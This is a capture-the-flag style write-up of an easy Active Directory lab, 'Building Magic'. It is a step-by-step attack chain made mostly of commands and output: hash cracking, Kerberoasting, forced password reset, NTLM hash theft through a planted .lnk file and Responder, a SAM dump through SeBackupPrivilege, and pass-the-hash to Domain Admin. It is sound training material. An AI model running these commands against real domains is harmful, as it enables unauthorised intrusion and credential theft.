









# Building Magic

**Platform:** Hack Smarter Labs  
**Difficulty:** Easy  
**Topics:** Active Directory, Hash Cracking, Kerberoasting, ForcePasswordChange, NTLM Theft, SeBackupPrivilege, Pass-the-Hash

---

## Overview

Building Magic is an easy-rated Active Directory lab aligned with OSCP difficulty. The attack chain starts with a leaked credential database, works through Kerberoasting and ACL abuse to gain write access to an SMB share, captures a user's NTLMv2 hash via a malicious `.lnk` file, and escalates to Domain Admin by abusing `SeBackupPrivilege` and a shared local administrator hash.

**Attack Path:**
```
Leaked DB → Hash cracking → Kerberoasting (r.haggard)
→ ForcePasswordChange (h.potch) → SMB write access (File-Share)
→ NTLM theft via .lnk → Hash crack (h.grangon) → Evil-WinRM
→ SeBackupPrivilege → SAM/SYSTEM dump → Pass-the-Hash (a.flatch)
→ Domain Admin → Root flag
```

---

## Setup

Add the following entries to `/etc/hosts`:

```
<DC_IP> buildingmagic.local
<DC_IP> dc01.buildingmagic.local
```

> Replace `<DC_IP>` with the IP shown on the lab page when you spin up the machine.

---

## Credential Analysis — Leaked Database

The lab provides a leaked internal database containing non-salted MD5 hashes:

```
id  username         full_name                   role            password
1   r.widdleton      Ron Widdleton               Intern Builder  c4a21c4d438819d73d24851e7966229c
2   n.bottomsworth   Neville Bottomsworth        Planner         61ee643c5043eadbcdc6c9d1e3ebd298
3   l.layman         Luna Layman                 Planner         8960516f904051176cc5ef67869de88f
4   c.smith          Chen Smith                  Builder         bbd151e24516a48790b2cd5845e7f148
5   d.thomas         Dean Thomas                 Builder         4d14ff3e264f6a9891aa6cea1cfa17cb
6   s.winnigan       Samuel Winnigan             HR Manager      078576a0569f4e0b758aedf650cb6d9a
7   p.jackson        Parvati Jackson             Shift Lead      eada74b2fa7f5e142ac412d767831b54
8   b.builder        Bob Builder                 Electrician     dd4137bab3b52b55f99f18b7cd595448
9   t.ren            Theodore Ren                Safety Officer  bfaf794a81438488e57ee3954c27cd75
10  e.macmillan      Ernest Macmillan            Surveyor        47d23284395f618bea1959e710bc68ef
```

**Non-salted hashes** mean identical passwords produce identical hash values, making them trivially crackable via rainbow tables or services like [CrackStation](https://crackstation.net).

### Cracked Hashes



| id | username | password | valid? |
|----|----------|----------|--------|
| 1 | r.widdleton | REDACTED | ✅ Valid |
| 9 | t.ren | REDACTED | ❌ Invalid |

Validate with NetExec:

```bash
nxc smb buildingmagic.local -u 'r.widdleton' -p 'REDACTED' --shares
```

```
SMB  ...  Windows Server 2022  DC01  BUILDINGMAGIC.LOCAL
  IPC$    READ
```

`r.widdleton` authenticates. Only `IPC$` is accessible — enough for RID cycling via SMB. The same credentials also authenticate against LDAP (port 389) independently for BloodHound collection.

---

## Enumeration

### Nmap

```
PORT     STATE    SERVICE        VERSION
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
135/tcp  filtered msrpc
139/tcp  filtered netbios-ssn
389/tcp  filtered ldap
445/tcp  filtered microsoft-ds
464/tcp  open     kpasswd5?
593/tcp  filtered http-rpc-epmap
3268/tcp filtered globalcatLDAP
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
9389/tcp filtered adws
```

The filtered results are a VPN/timing artefact from running nmap without `-Pn` — all AD ports are reachable as confirmed by NetExec and Impacket succeeding against them. Port `464` (Kerberos password change) is the only one nmap confirmed open.

### User Enumeration via RID Cycling

```bash
nxc smb <DC_IP> -u 'r.widdleton' -p 'REDACTED' --rid-brute
```

Key users discovered:

```
1104: BUILDINGMAGIC\h.potch
1111: BUILDINGMAGIC\r.widdleton
1112: BUILDINGMAGIC\r.haggard
1113: BUILDINGMAGIC\h.grangon
1115: BUILDINGMAGIC\a.flatch
```

### BloodHound Collection

```bash
nxc ldap dc01.buildingmagic.local -u 'r.widdleton' -p 'REDACTED' --bloodhound --collection All --dns-server <DC_IP>
```

Ingest the `.zip` into BloodHound and run the **Kerberoastable Users** query.



**Key findings:**
- `r.haggard` is **Kerberoastable**
- `r.haggard` has **ForcePasswordChange** rights over `h.potch`



---

## Kerberoasting — `r.haggard`

Request the TGS ticket for `r.haggard`:

```bash
impacket-GetUserSPNs buildingmagic.local/r.widdleton:REDACTED -dc-ip <DC_IP> -request-user r.haggard -outputfile kerberoast.txt
```

```
ServicePrincipalName                      Name       MemberOf  PasswordLastSet             LastLogon
----------------------------------------  ---------  --------  --------------------------  --------------------------
HOGWARTS-DC/r.hagrid.WIZARDING.THM:60111  r.haggard            2025-05-15 17:09:04.002067  2025-05-15 18:34:51.644710
```

Alternative via NetExec:

```bash
nxc ldap <DC_IP> -u 'r.widdleton' -p 'REDACTED' --kerberoasting kerberoast.txt
```

Crack offline with Hashcat (`-m 13100` = `krb5tgs` RC4-HMAC):

```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

**Cracked:** `r.haggard : REDACTED`

### Checking r.haggard's Shares

```bash
nxc smb buildingmagic.local -u 'r.haggard' -p 'REDACTED' --shares
```

```
NETLOGON  READ
SYSVOL    READ
```

Check SYSVOL for GPP passwords (Group Policy Preferences XML files containing `cpassword` fields encrypted with a key Microsoft published in 2012 — trivially crackable):

```bash
nxc smb buildingmagic.local -u 'r.haggard' -p 'REDACTED' -M gpp_password
```

Nothing found — moving on.

---

## ACL Abuse — ForcePasswordChange (`h.potch`)

BloodHound shows the exact command to abuse this right:



`r.haggard` has `ForcePasswordChange` rights over `h.potch`, allowing us to set a new password without knowing the current one:

```bash
bloodyAD -u r.haggard -p REDACTED -d buildingmagic.local -H <DC_IP> set password h.potch 'NewPass123!'
```

```
[+] Password changed successfully!
```

**rpcclient alternative:**

```bash
rpcclient -U 'BUILDINGMAGIC.LOCAL/r.haggard%REDACTED' <DC_IP> -c "setuserinfo2 h.potch 23 'NewPass123!'"
```

Check share access:

```bash
nxc smb buildingmagic.local -u 'h.potch' -p 'NewPass123!' --shares
```

```
File-Share  READ,WRITE
```

Write access to `File-Share` opens several attack paths: dropping malicious files for hash capture, browsing for sensitive data, or potential DLL hijacking if executables are run from the share.

---

## NTLM Theft — Capturing `h.grangon`

With write access to a share, we plant a malicious `.lnk` file. When any user browses the share, Windows auto-authenticates to our listener and leaks their NTLMv2 hash.

> **Note:** The NetExec `slinky` module (which automates this) was non-functional against this target — `ntlm_theft.py` was used instead.



### Step 1 — Generate malicious files

```bash
# Find your <INTERFACE> IP first: ip addr show <INTERFACE>
ntlm_theft.py --verbose --generate modern --server <YOUR_TUN0_IP> --filename "meetingXYZ"
```

### Step 2 — Start Responder

```bash
sudo responder -I <INTERFACE> -wv
```

### Step 3 — Upload the `.lnk` to the share

```bash
smbclient //<DC_IP>/File-Share -U 'BUILDINGMAGIC.LOCAL/h.potch%NewPass123!' -c 'put meetingXYZ/meetingXYZ.lnk meetingXYZ.lnk'
```

### Step 4 — Capture and crack the hash

```
[SMB] NTLMv2-SSP Client   : <DC_IP>
[SMB] NTLMv2-SSP Username : BUILDINGMAGIC\h.grangon
[SMB] NTLMv2-SSP Hash     : h.grangon::BUILDINGMAGIC:49af3a2a34c1a4d4:...
```

Copy the full hash line from Responder output into `ntlmv2.txt`, then crack it:

```bash
hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt
```

**Cracked:** `h.grangon : REDACTED`

---

## Lateral Movement — `h.grangon` → WinRM

BloodHound confirms `h.grangon` is a member of **Remote Management Users**.



```bash
nxc winrm <DC_IP> -u 'h.grangon' -p 'REDACTED'
```

```
[+] BUILDINGMAGIC.LOCAL\h.grangon:REDACTED (Pwn3d!)
```

```bash
evil-winrm -i <DC_IP> -u 'h.grangon' -p 'REDACTED'
```

### User Flag

```
*Evil-WinRM* PS C:\Users\h.grangon\desktop> dir

-a----  9/2/2025  7:41 PM  32  user.txt
```



---

## Privilege Escalation — SeBackupPrivilege

Check privileges:

```
*Evil-WinRM* PS C:\Users\h.grangon\Documents> whoami /priv

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeBackupPrivilege` allows bypassing file ACLs using the Windows Backup API. We can use it to dump the `SAM` and `SYSTEM` registry hives, which contain local account password hashes.

### Dump registry hives

```
*Evil-WinRM* PS C:\Users\h.grangon\desktop> reg save hklm\sam SAM
*Evil-WinRM* PS C:\Users\h.grangon\desktop> reg save hklm\system SYSTEM
```



### Download to Kali

```
*Evil-WinRM* PS C:\Users\h.grangon\desktop> download SAM
*Evil-WinRM* PS C:\Users\h.grangon\desktop> download SYSTEM
```

### Extract hashes offline

```bash
impacket-secretsdump -sam SAM -system SYSTEM local
```

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> The local Administrator account is disabled, so passing the hash directly for that account fails. We instead try the hash against all domain users.

---

## Pass-the-Hash — Compromising `a.flatch`

Enumerate all domain users:

```
*Evil-WinRM* PS C:\Users\h.grangon\Documents> net user /domain

a.flatch    Administrator    Guest
h.grangon   h.potch          krbtgt
r.haggard   r.widdleton
```

Build a `users.txt` and spray the Administrator hash across all accounts:

```bash
nxc smb BUILDINGMAGIC.LOCAL -u users.txt -H '520126a03f5d5a8d836f1c4f34ede7ce' --continue-on-success
```

```
[+] BUILDINGMAGIC.LOCAL\a.flatch:520126a03f5d5a8d836f1c4f34ede7ce (Pwn3d!)
```

`a.flatch` shares the same password hash as the local Administrator — a classic password reuse scenario exploitable via Pass-the-Hash without knowing the plaintext password. BloodHound confirms `a.flatch` is a member of **Domain Admins** (marked with a high-value target diamond in BloodHound).



---

## Root Flag

```bash
evil-winrm -u 'a.flatch' -H '520126a03f5d5a8d836f1c4f34ede7ce' -i <DC_IP>
```

```
*Evil-WinRM* PS C:\Users\a.flatch\Documents> cd c:\users\administrator\desktop
*Evil-WinRM* PS C:\users\administrator\desktop> dir

d-----  6/12/2025  1:37 PM        nssm-2.24
-a----   9/2/2025  4:24 PM   32   root.txt
```

---

## Summary

| Step | Technique | Tool |
|------|-----------|------|
| Leaked DB | Non-salted hash cracking | CrackStation / Hashcat |
| SMB enumeration | Credential validation + share listing | NetExec |
| AD enumeration | RID cycling, BloodHound collection | NetExec, BloodHound |
| Kerberoasting | TGS request + offline crack | impacket-GetUserSPNs, Hashcat |
| ACL abuse | ForcePasswordChange | bloodyAD |
| NTLM theft | Malicious `.lnk` in writable share | ntlm_theft.py, Responder |
| Lateral movement | WinRM access | Evil-WinRM |
| Privilege escalation | SeBackupPrivilege → SAM/SYSTEM dump | reg save, secretsdump |
| Domain compromise | Pass-the-Hash across domain users | NetExec |

